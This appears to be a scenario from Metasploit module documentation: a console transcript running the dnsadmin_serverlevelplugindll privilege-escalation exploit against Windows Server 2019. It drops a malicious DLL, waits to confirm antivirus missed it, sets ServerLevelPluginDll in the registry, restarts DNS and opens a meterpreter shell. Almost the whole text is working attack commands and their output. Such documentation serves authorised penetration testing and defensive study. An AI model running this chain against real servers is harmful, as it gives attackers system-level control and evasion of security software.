 ### Windows Server 2019 Standard x64, writing `msf.dll` to `%TEMP%`
```
msf6 exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
s[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > show options

Module options (exploit/windows/local/dnsadmin_serverlevelplugindll):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   AVTIMEOUT  60               yes       Time to wait for AV to potentially notice the DLL file we dropped, in seconds.
   DLLNAME    msf.dll          yes       DLL name (default: msf.dll)
   DLLPATH    %TEMP%           yes       Path to DLL. Can be a UNC path. (default: %TEMP%)
   MAKEDLL    false            yes       Just create the DLL, do not exploit.
   SESSION                     yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.168.195   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set RHOST 172.17.169.123
RHOST => 172.17.169.123
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 7788
LPORT => 7788
msf6 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Checking service state...
[*] Building DLL...
[+] Wrote DLL to C:\Users\normal\AppData\Local\Temp\1\msf.dll!
[*] Sleeping for 60 seconds to ensure the file wasn't caught by any AV...
[+] Looks like our file wasn't caught by the AV.
[!] Entering danger section...
[*] Modifying ServerLevelPluginDll to point to C:\Users\normal\AppData\Local\Temp\1\msf.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Started bind TCP handler against 172.17.169.123:7788
[*] Sending stage (200262 bytes) to 172.17.169.123
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.17.169.123:7788) at 2020-09-09 14:48:59 -0500

meterpreter > 
[+] Exited danger zone successfully!

meterpreter > getuid
```